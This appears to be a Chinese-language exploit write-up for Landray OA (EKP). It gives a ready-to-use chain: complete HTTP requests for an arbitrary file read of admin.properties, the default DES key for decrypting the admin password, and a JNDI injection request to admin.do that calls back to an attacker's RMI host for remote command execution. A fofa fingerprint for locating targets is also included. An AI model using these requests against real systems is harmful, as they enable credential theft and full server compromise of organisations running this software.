 # 蓝凌OA admin.do JNDI远程命令执行

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

利用 `蓝凌OA custom.jsp 任意文件读取漏洞` 读取配置文件

```plain
/WEB-INF/KmssConfig/admin.properties
```

发送请求包

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![img](/assets/PeiQi-Wiki/img/lanling-4.png)



获取password后，使用 DES方法 解密，默认密钥为 `kmssAdminKey`

![img](/assets/PeiQi-Wiki/img/lanling-5.png)



访问后台地址使用解密的密码登录

```plain
http://xxx.xxx.xxx.xxx/admin.do
```

![img](/assets/PeiQi-Wiki/img/lanling-6.png)



<a-alert type="success" message="使用工具执行命令: https://github.com/welk1n/JNDI-Injection-Exploit" description="" showIcon>
</a-alert>
<br/>

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

运行工具监听端口 ping dnslog测试 命令执行 (蓝凌OA 默认使用的是 JDK 1.7)

```shell
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: 
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```



![img](/assets/PeiQi-Wiki/img/lanling-7.png)